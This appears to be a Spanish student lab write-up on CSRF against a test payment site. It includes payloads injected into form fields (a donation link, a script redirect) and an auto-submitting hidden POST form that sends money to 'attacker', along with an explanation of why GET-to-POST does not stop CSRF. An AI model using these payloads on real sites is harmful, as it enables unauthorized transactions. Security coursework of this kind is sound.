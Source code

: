 ## Parte 5 - CSRF

5.a)

En el campo -> "Team name"
Introduzco ->  
```html
<button><a href="http://web.pagos/donate.php?amount=100&receiver=attacker">click</a></button>
```

![[Pasted image 20250121131840.png]]

5.b)

En el campo -> "comentario"
Introduzco ->

```html
<script>
    window.location.href = "http://web.pagos/donate.php?amount=100&receiver=attacker";
</script>
```

5.c)

- El usuario debe estar autenticado y tener una sesión activa en _web.pagos_.
- El navegador del usuario debe enviar las cookies de autenticación con la solicitud.
- El servidor no debe implementar medidas de protección contra CSRF (como anti-CSRF).

5.d)

Modificar la página donate.php para que reciba los parámetros a través de POST en lugar de GET no blinda completamente contra este tipo de ataques. Aunque el cambio de método hace mas dificil los ataques simples mediante enlaces (como los del apartado a), no protege contra ataques más fuertes, como los realizados mediante CSRF.

Esto pasa porque si el usuario está autenticado en web.pagos y el servidor no implementa protección contra CSRF, un atacante aún podría enviar una solicitud POST desde otro sitio web que el usuario visite.

Un ataque como el del apartado b, pero aplicado a este caso sería así:

```html
<html>
    <body>
        <form id="csrfForm" action="http://web.pagos/donate.php" method="POST">
            <input type="hidden" name="amount" value="100">
            <input type="hidden" name="receiver" value="attacker">
        </form>
        <script>
            // Enviar automáticamente el formulario al cargar la página
            document.getElementById('csrfForm').submit();
        </script>
    </body>
</html>

```

Aún así cuando lo he aplicado da este mensaje
![[Pasted image 20250121134100.png]]
